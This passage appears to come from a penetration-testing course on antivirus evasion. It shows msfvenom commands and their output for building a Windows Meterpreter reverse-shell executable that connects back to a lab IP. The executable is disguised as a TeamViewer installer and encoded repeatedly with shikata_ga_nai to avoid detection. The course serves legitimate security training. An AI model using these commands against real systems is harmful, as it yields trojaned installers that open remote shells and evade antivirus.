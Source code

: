Take the above example just as that—a hypothetical example. If we were to encode an executable payload only once with SGN, it would most likely be detected by most antiviruses today. Let's delve into that for a moment. Picking up msfvenom, the subscript of the Framework that deals with payload generation and Encoding schemes, we have the following input:

```
frank-106@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of exe file: 73802 bytes
Saved as: TeamViewerInstall.exe
```

This will generate a payload with the exe format, called TeamViewerInstall.exe, which is meant to work on x86 architecture processors for the Windows platform, with a hidden Meterpreter reverse_tcp shell payload, encoded once with the Shikata Ga Nai scheme. Let us take the result and upload it to VirusTotal.

One better option would be to try running it through multiple iterations of the same Encoding scheme:

```
frank-106@htb[/htb]$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe

Found 1 compatible encoders
Attempting to encode payload with 10 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai succeeded with size 449 (iteration=3)
x86/shikata_ga_nai succeeded with size 476 (iteration=4)
x86/shikata_ga_nai succeeded with size 503 (iteration=5)
x86/shikata_ga_nai succeeded with size 530 (iteration=6)
x86/shikata_ga_nai succeeded with size 557 (iteration=7)
x86/shikata_ga_nai succeeded with size 584 (iteration=8)
x86/shikata_ga_nai succeeded with size 611 (iteration=9)
x86/shikata_ga_nai chosen with final size 611
Payload size: 611 bytes
Final size of exe file: 73802 bytes
Error: Permission denied @ rb_sysopen - /root/Desktop/TeamViewerInstall.exe
```

As we can see, it is still not enough for AV evasion. There is a high number of products that still detect the payload. Alternatively, Metasploit offers a tool called msf-virustotal that we can use with an API key to analyze our payloads. However, this requires free registration on VirusTotal.

### MSF - VirusTotal
